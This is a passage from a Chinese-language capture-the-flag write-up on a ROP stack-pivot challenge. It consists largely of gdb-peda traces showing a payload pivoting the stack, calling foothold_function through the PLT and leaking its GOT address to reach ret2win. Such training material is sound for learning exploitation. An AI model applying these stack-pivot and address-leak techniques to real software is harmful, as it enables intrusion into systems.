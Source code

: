```
```
EBP 的值 `0xf755cf0c` 被赋值给 ESP，并将 主payload 的 ebp 赋值给 EBP，同时 ESP+4=`0xf755cf10`，这个值正是我们 主payload 的地址。

第二次 ret：
```
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EBX: 0x0 
ECX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EDX: 0xf7731860 --> 0x0 
ESI: 0xf772fe28 --> 0x1d1d30 
EDI: 0x0 
EBP: 0x0 
ESP: 0xf755cf14 --> 0x80488c0 (<usefulGadgets>: pop    eax)
EIP: 0x80485f0 (<foothold_function@plt>:        jmp    DWORD PTR ds:0x804a024)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80485e0 <exit@plt>:        jmp    DWORD PTR ds:0x804a020
   0x80485e6 <exit@plt+6>:      push   0x28
   0x80485eb <exit@plt+11>:     jmp    0x8048580
=> 0x80485f0 <foothold_function@plt>:   jmp    DWORD PTR ds:0x804a024
 | 0x80485f6 <foothold_function@plt+6>: push   0x30
 | 0x80485fb <foothold_function@plt+11>:        jmp    0x8048580
 | 0x8048600 <__libc_start_main@plt>:   jmp    DWORD PTR ds:0x804a028
 | 0x8048606 <__libc_start_main@plt+6>: push   0x38
 |->   0x80485f6 <foothold_function@plt+6>:     push   0x30
       0x80485fb <foothold_function@plt+11>:    jmp    0x8048580
       0x8048600 <__libc_start_main@plt>:       jmp    DWORD PTR ds:0x804a028
       0x8048606 <__libc_start_main@plt+6>:     push   0x38
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
0000| 0xf755cf14 --> 0x80488c0 (<usefulGadgets>:        pop    eax)
0004| 0xf755cf18 --> 0x804a024 --> 0x80485f6 (<foothold_function@plt+6>:        push   0x30)
0008| 0xf755cf1c --> 0x80488c4 (<usefulGadgets+4>:      mov    eax,DWORD PTR [eax])
0012| 0xf755cf20 --> 0x8048571 (<_init+33>:     pop    ebx)
0016| 0xf755cf24 --> 0x1f7 
0020| 0xf755cf28 --> 0x80488c7 (<usefulGadgets+7>:      add    eax,ebx)
0024| 0xf755cf2c --> 0x80486a3 (<deregister_tm_clones+35>:      call   eax)
0028| 0xf755cf30 --> 0xa ('\n')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080485f0 in foothold_function@plt ()
```
成功跳转到 `foothold_function@plt`，接下来系统通过 `_dl_runtime_resolve` 等步骤，将真正的地址写入到 `.got.plt` 中，我们构造 gadget 泄露出该地址地址，然后计算出 `ret2win()` 的地址，调用它，就成功了。

地址泄露的过程：
```
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0x54 ('T')
EBX: 0x0 
ECX: 0x54 ('T')
EDX: 0xf7731854 --> 0x0 
ESI: 0xf772fe28 --> 0x1d1d30 
EDI: 0x0 
EBP: 0x0 
ESP: 0xf755cf18 --> 0x804a024 --> 0xf7772770 (<foothold_function>:      push   ebp)
EIP: 0x80488c0 (<usefulGadgets>:        pop    eax)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80488ba:   xchg   ax,ax
   0x80488bc:   xchg   ax,ax
```